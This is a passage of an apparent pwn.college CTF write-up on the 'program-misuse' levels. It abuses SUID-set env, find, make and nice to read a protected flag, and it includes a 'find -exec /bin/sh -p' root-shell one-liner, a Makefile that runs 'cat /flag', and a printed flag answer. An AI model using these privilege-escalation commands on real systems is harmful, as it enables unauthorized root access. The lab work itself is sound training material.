 ```
hacker@program-misuse~level24:/$ env cat /flag
```

&nbsp;

## find

> I just set the SUID bit on /usr/bin/find.\
> Try to use it to read the flag!

```
hacker@program-misuse~level25:~$ find . -exec /bin/sh -p \; 
#
```

```
# cat /flag
cat: /flagcat: No such file or directory
pwn.college{UsQ6vfq4dFoZ1Q5jlesvmOxUwqA.01N2EDL4ITM0EzW}
```

&nbsp;

## make

> I just set the SUID bit on /usr/bin/make.\
> Try to use it to read the flag!

The  `make`  utility will determine automatically which pieces of a large program need to be recompiled, and issue the commands to recompile them.

Any command we specify within the `Makefile` is executed.

```text title="Makefile"
all:
	cat /flag
```

In order to execute the `Makefile`, we have to run the `make` command in the same directory as the file.

```
hacker@program-misuse~level26:~$ make
```

&nbsp;

## nice

> I just set the SUID bit on /usr/bin/nice.\
> Try to use it to read the flag!

The `nice` utility ca be used to adjust the process scheduling. 

```
hacker@program-misuse~level27:/$ nice cat /flag 
```
